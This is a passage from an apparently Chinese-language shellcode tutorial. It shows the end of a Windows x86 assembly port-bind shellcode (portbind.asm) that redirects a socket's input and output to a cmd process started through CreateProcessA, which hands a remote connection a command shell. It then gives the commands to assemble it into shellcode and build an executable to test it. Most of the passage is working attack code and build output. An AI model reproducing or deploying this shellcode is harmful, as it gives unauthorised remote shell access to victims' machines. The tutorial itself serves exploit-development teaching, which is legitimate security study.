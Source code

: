 ```
    rep stosb ;Repeat storing zero at the buffer starting at edi until ecx is zero.
    pop edi ;Restore edi to its original value.
initialize_structs:
    mov byte[edi], 0x44 ;Set the cb attribute of STARTUPINFO to 0x44 (the size of the structure).
    inc byte[edi + 0x2d] ;Set the STARTF USESTDHANDLES flag to indicate that the hStdInput, hStdOutput, and hStdError attributes should be used.
    push edi ;Preserve edi again as it will be modified by the stosd.
    mov eax, esi ;Set eax to the client file descriptor that was returned by accept
    lea edi, [edi + 0x38] ;Load the effective address of the hStdInput attribute in the STARTUPINFO structure.
    stosd ;Set the hStdInput attribute to the file descriptor returned from accept.
    stosd ;Set the hStdOutput attribute to the file descriptor returned from accept.
    stosd ;Set the hStdError attribute to the file descriptor returned from accept.
    pop edi ;Restore edi to its original value.
execute_process:
    xor eax, eax ;Zero eax for use with passing zerod arguments.
    lea esi, [edi + 0x44] ;Load the effective address of the PROCESS INFORMATION structure into esi.
    push esi ;Push the pointer to the lpProcessInformation structure.
    push edi ;Push the pointer to the lpStartupInfo structure.
    push eax ;Push the lpStartupDirectory argument as NULL.
    push eax ;Push the lpEnvironment argument as NULL
    push eax ;Push the dwCreationFlags argument as 0.
    inc eax ;Increment eax to 1.
    push eax ;Push the bInheritHandles argument as TRUE due to the fact that the client needs to inherit the socket file descriptor.
    dec eax ;Decrement eax back to zero.
    push eax ;Push the lpThreadAttributes argument as NULL.
    push eax ;Push the lpProcessAttributes argument as NULL.
    push dword [ebp + 0x34] ;Push the lpCommandLine argument as the pointer to cmd.
    push eax ;Push the lpApplicationName argument as NULL.
    call [ebp + 0x08] ;Call CreateProcessA to created the child process that has its input and output redirected from and to the remote machine via the TCP connection.
exit_process:
    call [ebp + 0x0c] ;Call ExitProcess as the parent no longer needs to execute
+--------------- End portbind.asm --------------+

```

编译汇编代码

> ./shellcode-compiler.sh portbind.asm

你现在可以使用下面的”shellcode-compiler.sh”命令来编译这个shellcode并自动化地创建一个用于测试的可执行程序,你应该已经下载好了在教程1中的这个脚本和任意其他必须的脚本和程序 .

把portbind.asm编译成portbind.bin

```
[nasm -f bin -o portbind.bin portbind.asm]
    Converting portbind.bin to portbind.shellcode
[./xxd-shellcode.sh portbind.asm]
    \xXX\xXX\xXX\xXX\xXX...[snip]...\xXX\xXX\xXX\xXX\xXX
    Creating portbind.shellcodetest.c
    
    Compiling portbind.shellcodetest.c to portbind.shellcodetest[.exe]
[gcc -o portbind.shellcodetest portbind.shellcodetest.c]
    
    Complete. You can now execute ./portbind.shellcodetest[.exe]
    
    Enjoy,
    Ty Miller
    www.projectshellcode.com

```
